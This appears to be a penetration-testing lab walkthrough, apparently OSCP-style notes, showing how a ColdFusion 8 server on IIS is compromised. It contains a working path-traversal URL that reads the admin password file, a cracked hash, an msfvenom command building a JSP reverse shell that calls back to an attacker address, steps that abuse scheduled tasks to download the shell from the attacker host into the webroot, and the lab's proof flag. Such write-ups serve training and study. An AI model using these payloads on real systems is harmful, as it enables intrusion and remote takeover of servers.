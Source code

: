 * Hostname: mike
* Server: Microsoft-IIS/6.0
* Web Framework: Adobe ColdFusion
* Programming Language: CFML
* OS: Windows

**Wappalyzer**
![[mike-wappalyzer.png]]

**Home page**
![[home.png]]

**Candidate exploit**
```
https://www.exploit-db.com/exploits/14641
```

**Obtaining password hash through LFI**
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

**Hash**
``aafdc23870ecbcd3d557b6423a8982134e17927e : pass123``

**Generate JSP reverse shell**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.138 LPORT=9001 -f raw -o shell.jsp
```

### Writing Shell to File ([ColdFusion](https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File)) 

-   Go to the Settings Summary tab on the left and find the 'Mappings' section.
-   One of the default mappings is /CFIDE. This is where you will be writing to.
-   Copy the path next to it. ``C:\Inetpub\wwwroot\CFIDE``
-   Enter the Debugging and Logging tab on the left panel and click 'Scheduled Tasks'
-   Click 'Schedule New Task'.
-   Set the task name to whatever you like
-   Change the URL to the URL of JSP shell ([http://KALI_IP/shell.jsp](http://KALI_IP/shell.jsp))
-   Check the option to save the output to a file. 
-   Paste the path you acquired from the Mappings into the 'File' field,
-   Type the name you want to save the shell as and the extension (jsp).
	- ``C:\Inetpub\wwwroot\CFIDE\shell.jsp``
-   Press **OK** and click the green check to run the task.
-   You should now be able to access the shell from http://10.11.1.10/CFIDE/shell.jsp

**Mapping directory**
``C:\Inetpub\wwwroot\CFIDE``

**search for proof.txt**
```
cd c:\
dir "proof.txt" /s
```

**proof.txt**
```
a416a831fddf36aa8c01ba0674ca7bf8
```


![[10.11.1.10 - mike (done)/screenshots/proof.png]]